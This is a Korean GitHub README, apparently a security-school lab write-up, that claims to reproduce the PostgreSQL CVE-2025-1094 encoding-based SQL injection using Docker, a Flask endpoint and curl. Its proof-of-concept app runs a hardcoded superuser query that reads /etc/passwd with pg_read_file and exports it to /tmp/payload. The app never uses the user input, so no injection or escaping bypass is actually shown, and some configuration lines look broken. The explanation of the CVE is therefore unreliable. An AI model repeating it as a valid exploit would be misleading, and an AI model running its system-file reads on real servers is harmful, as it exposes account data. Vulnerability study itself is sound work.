





# PostgreSQL SQL Injection (CVE-2025-1094)

<span style="color: red;"><b>vulhub에 없는 취약점입니다.</b></span>

> 화이트햇 스쿨 3기 - [장인영 (@inyeongjang)](https://github.com/inyeongjang)

<br/>

## 개요 

CVE-2025-1094는 PostgreSQL 데이터베이스의 libpq 라이브러리와 명령줄 유틸리티 프로그램에서 발생하는 SQL Injection 취약점입니다.

libpq는 클라이언트 프로그램이 PostgreSQL 서버에게 쿼리를 전달하고, 그 쿼리 결과를 받아올 수 있게 해주는 함수들의 집합입니다.  

특히 `PQescapeLiteral()`, `PQescapeIdentifier()`, `PQescapeString()`, `PQescapeStringConn()` 함수들은 사용자가 입력한 문자열을 안전한 형태로 변환하여 SQL 쿼리에 삽입할 수 있게 도와줍니다.

그러나, 클라이언트가 BIG5 인코딩을 사용하고 서버가 EUC_TW 또는 MULE_INTERNAL 인코딩을 사용할 때, 이 함수들이 입력값을 완벽히 처리하지 못하는 문제가 발생할 수 있습니다.

특히 PostgreSQL 명령줄 프로그램 psql을 사용할 때, 사용자 입력값이 libpq 함수들을 거친 뒤에도 제대로 이스케이프되지 않고 psql 명령어에 삽입될 경우, SQL Injection이 발생할 수 있습니다.

이 취약점은 PostgreSQL 17.3, 16.7, 15.11, 14.16, 13.19 버전 이전에 존재합니다.

이 보고서에서는 Docker 환경을 구축하여 해당 취약점을 재현하고, 이를 악용하는 방법을 설명합니다.

</br>

## 환경 구축 

**1. 디렉토리 구조 생성**

프로젝트 디렉토리를 생성하고, 필요한 파일들을 준비합니다. 
파일 구조는 아래와 같습니다. 

```
​cve-2025-1094
├── app.py			# Flask 애플리케이션 코드
├── Dockerfile.app 		# Flask 앱을 위한 Dockerfile
├── Dockerfile.db 		# 취약한 PostgreSQL을 위한 Dockerfile 
└── docker-compose.yml 		# Docker Compose 설정 파일
```

**2. Dockerfile.db** 

Dockerfile.db는 취약한 PostgreSQL 서버 환경을 설정하기 위한 Dockerfile입니다.
 
서버에서는 EUC_TW 문자 인코딩 방식을, 클라이언트에서는 BIG5 문자 인코딩 방식을 설정하여, 서버와 클라이언트 간 문자 인코딩 방식 불일치로 인해 SQL 인젝션 공격이 가능해집니다.

```dockerfile
FROM postgres:13-alpine
ENV POSTGRES_SERVER_ENCODING=EUC_TW
ENV POSTGRES_CLIENT_ENCODING=BIG5 
```

`FROM postgres:13-alpine` : PostgreSQL 13 버전의 Alpine 기반 이미지를 사용하여 환경을 설정합니다.
`POSTGRES_SERVER_ENCODING=EUC_TW` :  PostgreSQL 서버에서 사용할 문자 인코딩 방식을 EUC_TW로 설정합니다.
`POSTGRES_CLIENT_ENCODING=BIG5` :  PostgreSQL 클라이언트에서 사용할 문자 인코딩 방식을 BIG5로 설정합니다.

이 두 인코딩 방식은 서로 다른 방식으로 바이트를 해석합니다. 그 결과, 클라이언트에서 처리된 이스케이프 문자들이 서버에서 다르게 해석되어, SQL 인젝션 취약점이 발생할 수 있습니다. 즉, 클라이언트와 서버 간 인코딩 불일치로 인해 사용자가 입력한 데이터가 제대로 처리되지 않아 공격자가 SQL 인젝션을 통해 시스템을 악용할 수 있습니다.

**3. app.py** 

app.py는 Flask 애플리케이션으로 `/vuln-endpoint`라는 취약한 엔드포인트를 제공하며, 사용자가 POST 요청을 보내면 요청에 포함된 입력값을 SQL 쿼리에 직접 삽입합니다. 이 과정에서 SQL 인젝션 취약점이 발생하게 됩니다. 

```python 
from flask import Flask, request
import subprocess
import os 

app = Flask(__name__)

@app.route('/vuln-endpoint', methods=['POST'])
def vuln_endpoint():
	try:
		user_input=request.form.get('input', '') 
		
		malicious_query=f"""
		DO $$
		DECLARE
			l_oid oid; 
			l_fd integer; 
		BEGIN
			l_oid:=lo_create(0); 
			l_fd:=lo_open(l_oid, 131072); 
			PERFORM lowrite(l_fd, pg_read_file('/etc/passwd')::bytea); 
			PERFORM lo_close(l_fd); 
			PERFORM lo_export(l_oid, '/tmp/payload'); 
		END $$;
		"""
		cmd = ["psql", "-h", "db", "-U", "postgres", "-c", malicious_query] 
	
		env = os.environ.copy()
		env["PGPASSWORD"] = "example" 

		result = subprocess.run(cmd, env=env, capture_output=True, text=True) 

		return {
			"status":"executed", 
			"stdout":result.stdout, 
			"stderr":result.stderr
		} 

	except Exception as e:
		return {"error":str(e)}, 500

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=5000)

```

이 애플리케이션은 PostgreSQL의 대용량 객체(LO) 관련 함수들을 활용하여 /etc/passwd 파일을 읽고 그 내용을 공격자가 원하는 위치에 저장하는 예시를 보여줍니다. 

`lo_create(0)` : 새로운 대용량 객체를 생성하고, OID(객체 식별자)를 반환합니다.
`lo_open(l_oid, 131072)` : 대용량 객체를 열고, 쓰기 모드로 접근합니다.
`lowrite(l_fd, pg_read_file('/etc/passwd')::bytea)` : 시스템 파일을 읽어와 대용량 객체에 씁니다.
`lo_export(l_oid, '/tmp/payload')` : 대용량 객체의 내용을 파일로 내보냅니다.

또한, subprocess.run()을 사용해 psql 클라이언트를 실행하여 악의적인 쿼리를 PostgreSQL 서버에 전달합니다. 이 과정에서 libpq 함수의 취약점에 직접 노출되며, 인코딩 불일치 문제로 SQL 인젝션이 가능해집니다. 클라이언트와 서버 간 인코딩 불일치로 인해, SQL 쿼리에 포함된 특수문자들이 서버에서 다르게 해석될 수 있습니다.

**4. Dockerfile.app**

Dockerfile.app은 Flask 애플리케이션을 위한 Dockerfile입니다. 이 파일은 Flask 웹 서버를 실행하고, PostgreSQL 데이터베이스에 쿼리를 전송합니다.

```dockerfile
FROM python: 3.9-slim 

WORKDIR /app 
RUN pip install flask psycopg2-binary
RUN apt-get update && apt-get install -y curl 
RUN apt-get update && apt-get install -y postgresql-client 

COPY app.py . 

EXPOSE 5000 
CMD ["python", "app.py"] 

``` 

`Flask`: Flask는 웹 서버를 구축하는 데 사용되는 경량 프레임워크입니다.
`psycopg2-binary`: PostgreSQL과의 연결을 위한 라이브러리입니다.
`postgresql-client`: PostgreSQL 명령어인 psql을 실행하기 위한 클라이언트 도구입니다.
`curl`: HTTP 요청을 테스트하기 위한 도구입니다.

이 Dockerfile을 통해 Flask 애플리케이션을 실행하고, 서버가 5000번 포트에서 요청을 받을 준비를 합니다. /vuln-endpoint로 요청이 들어오면, PostgreSQL 데이터베이스에 쿼리를 전송하여 취약점을 재현합니다.

**5. docker-compose.yml**

실행하고 서로 연결하는 역할을 합니다. 이 파일은 각 서비스의 설정을 정의하고, 두 컨테이너가 어떻게 상호작용할지 결정합니다.

```yaml
version: '3'

services:
 db:
  build: 
   context: .
   dockerfile: Dockerfile.db 		# PostgreSQL 데이터베이스 환경을 위한 Dockerfile 설정
  environment:
   POSTGRES_PASSWORD: example 		# PostgreSQL 비밀번호 설정
  volumes:
   - pg_data:/var/lib/postgresql/data 	# 데이터 영속성을 위한 볼륨

 app:
  build:
   context: .
   dockerfile: Dockerfile.app		# Flask 애플리케이션 환경을 위한 Dockerfile 설정
  ports:
   - "5000:5000" 			# Flask 서버 포트 5000을 외부로 노출
  depends_on: 
   - db					# db 서비스가 준비된 후 app 서비스가 실행되도록 설정

volumes:
 pg_data: 				# PostgreSQL 데이터 저장소를 위한 볼륨 설정
```
`db`: PostgreSQL 데이터베이스 설정입니다. Dockerfile.db를 기반으로 이미지가 빌드되고, POSTGRES_PASSWORD 환경 변수를 통해 비밀번호를 설정합니다. volumes는 데이터베이스 데이터를 지속적으로 저장하는 역할을 합니다.

`app`: Flask 애플리케이션 설정입니다. Dockerfile.app을 기반으로 Flask 애플리케이션을 빌드하고, 5000번 포트를 외부에 노출합니다. depends_on을 사용해 db 서비스가 먼저 실행된 후 app 서비스가 시작됩니다.

<br/>

## POC 실행 방법 

**1. Docker Compose로 환경 빌드 및 실행**
Docker Compose로 환경 빌드 및 실행 먼저, docker-compose를 사용하여 환경을 빌드하고 실행합니다. 아래 명령어를 입력하면 Docker Compose가 모든 서비스를 설정하고 실행합니다.

```bash
docker-compose up --build
``` 




**2. Flask 앱 테스트**
Flask 애플리케이션이 실행되고 나면, curl을 사용하여 취약점이 있는 엔드포인트로 POST 요청을 보냅니다. 아래 명령어로 Flask 애플리케이션에 요청을 보낼 수 있습니다.

```bash
sudo docker compose exec app /bin/bash
```
```bash
curl -X POST http://localhost:5000/vuln-endpoint -d "input=test"
```


**3. PostgreSQL에서 결과 확인**
PostgreSQL 서버에 접속하여 /tmp/payload 파일의 내용을 확인합니다. 이 파일에는 /etc/passwd 파일의 내용이 포함되어 있을 것입니다.
``` bash 
sudo docker exec -it <postgres_container_id> bash
```
``` bash
cat /tmp/payload
```


<br/>

## 참고 자료 (Refernences)  
- https://nvd.nist.gov/vuln/detail/CVE-2025-1094 
- https://www.postgresql.org/about/news/postgresql-1716-1511-1416-1319-1213-and-1118-released-2770/
- https://access.redhat.com/security/cve/cve-2025-1094
- https://github.com/ishwardeepp/CVE-2025-1094-PoC-Postgre-SQLi 
